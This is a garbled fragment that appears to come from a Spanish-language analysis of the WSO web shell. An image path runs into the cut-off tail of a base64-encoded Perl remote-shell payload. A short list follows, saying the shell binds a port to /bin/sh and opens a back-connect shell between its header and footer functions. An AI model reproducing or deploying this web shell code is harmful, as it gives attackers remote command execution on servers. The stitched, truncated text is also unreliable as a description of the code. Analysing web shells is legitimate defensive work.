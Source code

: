 jdXRlICRTSEVMTFxuIjsNCgkJY2xvc2UgQ09OTjsNCgkJZXhpdCAwOw0KCX0NCn0=";
1. Ejecuta la función **`wsoHeader`**
1. Realiza las siguientes funciones ejecutando el código de las variables arriba definidas:
    1. Bind port to /bin/sh [perl]
    1. Back-connect [perl]
1. Ejecuta la función **`wsoFooter`**
